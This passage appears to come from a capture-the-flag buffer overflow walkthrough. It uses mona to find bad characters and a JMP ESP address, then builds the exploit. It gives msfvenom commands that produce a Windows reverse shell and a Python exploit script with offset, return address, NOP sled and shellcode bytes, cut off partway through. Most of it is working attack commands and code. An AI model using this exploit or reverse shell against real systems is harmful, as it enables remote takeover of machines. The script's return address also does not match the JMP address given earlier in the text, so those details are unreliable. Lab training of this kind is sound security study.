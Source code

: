```
!mona bytearray -b "\x00"
```


Send the byte array in your payload and compare it in Mona:

```
!mona compare -f c:\mona\gatekeeper\bytearray.bin -a <ESP_ADDRESS>
# You can check the esp address at the right side of immunity.
```

Result: Bad characters identified: `\x00`, `\x0a`
Repeat the process, excluding each new bad character, until Mona returns "Unmodified".

#### 8. Find a `JMP ESP` address

Search for a `JMP ESP` instruction in a module with **ASLR** and **SafeSEH** disabled:

```
!mona jmp -r esp -cpb "\x00\x0a"
```

Copy the safe JMP address found (e.g., `0x625011af`).

#### 9. Generate shellcode with `msfvenom`

Create a reverse shell payload, excluding the bad characters:

```
msfvenom -p windows/shell_reverse_tcp LHOST=LPORT=4444 -b "\x00\x0A" -f c -e x86/shikata_ga_nai
```

#### 10. Build the final exploit

#### 11. Launch the attack.



Here's the final script you should have, 

```python
#!/usr/bin/env python3

import socket

# Target configuration
ip      = "10.10.145.109"        # Change with TARGET IP
port    = 31337

# Exploit parameters
prefix  = ""                      # Command prefix
offset  = 146                     # Offset to EIP
overflow= "A" * offset            # Filler to reach EIP
retn    = "\xc3\x14\x04\x08"      # Return address: jmp esp (little endian)
padding = "\x90" * 16             # NOP sled

# Shellcode: msfvenom generated payload, do it with: msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
payload = (
    "\xda\xc1\xba\xb2\xb0\xc7\x8a\xd9\x74\x24\xf4\x5d\x33\xc9"
    "\xb1\x52\x31\x55\x17\x03\x55\x17\x83\x77\xb4\x25\x7f\x8b"
    "\x5d\x2b\x80\x73\x9e\x4c\x08\x96\xaf\x4c\x6e\xd3\x80\x7c"
    "\xe4\xb1\x2c\xf6\xa8\x21\xa6\x7a\x65\x46\x0f\x30\x53\x69"
    "\x90\x69\xa7\xe8\x12\x70\xf4\xca\x2b\xbb\x09\x0b\x6b\xa6"
    "\xe0\x59\x24\xac\x57\x4d\x41\xf8\x6b\xe6\x19\xec\xeb\x1b"
    "\xe9\x0f\xdd\x8a\x61\x56\xfd\x2d\xa5\xe2\xb4\x35\xaa\xcf"
    "\x0f\xce\x18\xbb\x91\x06\x51\x44\x3d\x67\x5d\xb7\x3f\xa0"
    "\x5a\x28\x4a\xd8\x98\xd5\x4d\x1f\xe2\x01\xdb\xbb\x44\xc1"
    "\x7b\x67\x74\x06\x1d\xec\x7a\xe3\x69\xaa\x9e\xf2\xbe\xc1"
    "\x9b\x7f\x41\x05\x2a\x3b\x66\x81\x76\x9f\x07\x90\xd2\x4e"
```